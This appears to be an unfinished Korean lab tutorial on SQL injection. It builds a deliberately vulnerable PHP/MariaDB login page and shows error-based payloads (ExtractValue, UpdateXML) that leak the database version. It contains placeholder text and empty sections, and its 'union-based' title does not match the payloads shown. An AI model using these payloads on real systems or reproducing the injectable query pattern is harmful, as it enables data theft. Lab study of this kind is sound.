 # Union based SQL Injection

aa

# **INDEX**

**1. [환경 구성](#환경-구성)**

**2. [a](#a)**

 - [DBMS 버전 확인](#DBMS-버전-확인)

 - [DBMS 계정 확인](#DBMS-계정-확인)

 - [데이터베이스 이름 확인](#데이터베이스-이름-확인)

 - [테이블 이름 확인](#테이블-이름-확인)

 - [컬럼 이름 확인](#컬럼-이름-확인)

 - [데이터 확인](#데이터-확인)


# **환경 구성**

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.0.58              |
| apache2       | 2.4.41-4ubuntu3.10        |
| php           | 7.4.3                     |
| mariadb       | 10.3.34-0ubuntu0.20.04.1  |

apache, php와 데이터베이스를 사용하기 위해 관련 패키지를 설치하자.

```sh
root@ubuntu:~# apt -y install apache2 php mariadb-server php-mysql
```

root비밀번호를 설정하고 데이터베이스, 테이블을 생성한 뒤 데이터를 넣자.

```sh
root@ubuntu:~# mysql_secure_installation
Enter current password for root (enter for none):
Set root password? [Y/n] Y
New password:
Re-enter new password:
Remove anonymous users? [Y/n] Y
Disallow root login remotely? [Y/n] n
Remove test database and access to it? [Y/n] Y
Reload privilege tables now? [Y/n] Y
root@ubuntu:~# mysql -u root -p'root'
MariaDB [(none)]> create database test;
MariaDB [(none)]> use test;
MariaDB [test]> create table user (id varchar(30), pw varchar(30));
MariaDB [test]> insert into user(id,pw) values('admin','helloworld');
```

생성한 데이터베이스로 접근할 수 있는 권한을 부여하자.

```sh
MariaDB [(none)]> grant all privileges on test.* to 'root'@localhost identified by 'root';
MariaDB [(none)]> flush privileges;
```

이후 php.ini를 수정하여 데이터베이스 관련 함수를 사용할 수 있도록 하자.

```ini
extension=mysqli.so
```

SQLi(SQL Injection)에 취약한 페이지를 생성하자.

```php
<?php
	if (isset($_GET['userid']) && isset($_GET['password'])) {
		$conn = mysqli_connect("localhost", "root", "root", "test");
		if (!$conn) die("mysql connect error : ".mysqli_connect_error($conn));
		$sql = "SELECT id, pw FROM user WHERE id='".$_GET['userid']."' and pw='".$_GET['password']."'";
		$result = mysqli_query($conn, $sql);
		if (!result) echo "mysql query error : ".mysqli_error($conn);
		else {
			$row = mysqli_fetch_array($result);
			if ($row) echo "Welcome ".$row[id];
			else echo "Login Failed : ".mysqli_error($conn);
			mysqli_close($conn);
		}
	} else {
?>
<html>
	<body>
		<form action="/index.php" method="get">
			<label>ID : </label><input type="text" name="userid" required>
			<label>PW : </label><input type="password" name="password" required>
			<input type="submit" value="login">
		</form>
	</body>
</html>
<?php
	}
?>
```

# **a**

aa

## **DBMS 버전 확인**

에러 메세지에 DBMS의 버전을 출력하도록 유도해보자.

| data	| value	|
| :---	| :--- 	|
| ID	| ' AND ExtractValue(0,CONCAT(0x3a,VERSION()))#<br>' AND UpdateXML(0,CONCAT(0x3a,VERSION()),0)# |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+AND+ExtractValue%280%2CCONCAT%280x3a%2CVERSION%28%29%29%29%23&password=123<br>http://192.168.0.58/index.php?userid=%27+AND+UpdateXML%280%2CCONCAT%280x3a%2CVERSION%28%29%29%2C0%29%23&password=123 |

결과는 다음과 같다.

	Login Failed : XPATH syntax error: ':10.3.34-MariaDB-0ubuntu0.20....'

## **DBMS 계정 확인**
## **데이터베이스 이름 확인**
## **테이블 이름 확인**
## **컬럼 이름 확인**
## **데이터 확인**

https://velog.io/@yu-jin-song/DB-SQL-%EC%9D%B8%EC%A0%9D%EC%85%98SQL-Injection
https://m.blog.naver.com/lstarrlodyl/221837243294
https://choco4study.tistory.com/10
https://www.lanian.co.kr/entry/Error-Based-SQL-Injection
https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/